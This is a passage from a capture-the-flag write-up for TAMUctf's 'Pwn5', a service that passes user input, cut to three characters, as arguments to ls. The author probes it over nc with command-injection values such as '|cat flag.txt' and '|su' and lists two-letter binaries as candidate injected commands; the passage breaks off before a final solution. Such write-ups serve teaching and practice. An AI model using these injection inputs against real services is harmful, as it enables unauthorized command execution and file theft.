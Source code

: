 # Pwn5
Pwn, 372 points

## Description:

A binary file was attached, in addition to an address and port.

## Solution:

Let's run the binary:

```console
root@kali:/media/sf_CTFs/tamu/Pwn5# nc pwn.tamuctf.com 4325
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
-al
Result of ls -al:
total 728
drwxr-xr-x 1 root    root      4096 Feb 19 20:47 .
drwxr-xr-x 1 root    root      4096 Mar 14 21:45 ..
-r--r--r-- 1 pwnflag pwnflag     32 Feb 19 20:46 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 730072 Feb 19 20:46 pwn5
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
|cat flag.txt
Result of ls |ca:
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
-alt
Result of ls -al:
total 728
drwxr-xr-x 1 root    root      4096 Feb 19 20:47 .
drwxr-xr-x 1 root    root      4096 Mar 14 21:45 ..
-r--r--r-- 1 pwnflag pwnflag     32 Feb 19 20:46 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 730072 Feb 19 20:46 pwn5
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
```

This challenge looks like the previous one ([Pwn4](Pwn4.md)) but this time cuts our input after three characters. For example, if we enter `-alt` as the parameter, only `-al` is executed.

At first I tried piping to a two-letter command:

```
root@kali:/media/sf_CTFs/tamu/Pwn5# ls /bin/?? /usr/bin/?? /sbin/??
/bin/cp  /bin/ip  /bin/mt  /bin/ps  /bin/ss   /sbin/iw     /usr/bin/ar  /usr/bin/bc  /usr/bin/ex  /usr/bin/hd  /usr/bin/ld  /usr/bin/nm  /usr/bin/r2  /usr/bin/tr  /usr/bin/vi
/bin/dd  /bin/ln  /bin/mv  /bin/rm  /bin/su   /sbin/tc     /usr/bin/as  /usr/bin/cc  /usr/bin/gc  /usr/bin/id  /usr/bin/m4  /usr/bin/od  /usr/bin/ri  /usr/bin/ts  /usr/bin/wc
/bin/df  /bin/ls  /bin/nc  /bin/sh  /sbin/ip  /usr/bin/7z  /usr/bin/b2  /usr/bin/du  /usr/bin/gs  /usr/bin/js  /usr/bin/nl  /usr/bin/pr  /usr/bin/sg  /usr/bin/ul  /usr/bin/xz
root@kali:/media/sf_CTFs/tamu/Pwn5# nc pwn.tamuctf.com 4325
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
|su
Result of ls |su:
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
```